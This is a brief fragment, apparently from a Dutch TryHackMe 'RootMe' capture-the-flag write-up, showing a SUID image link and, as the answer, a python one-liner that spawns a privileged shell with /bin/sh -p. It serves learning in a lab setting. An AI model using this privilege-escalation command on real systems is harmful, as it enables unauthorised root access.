 ![alt text](https://github.com/SvenvG0/THM/blob/main/RootMe/Images/SUID.png?raw=true)

#### Antwoord:
```
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
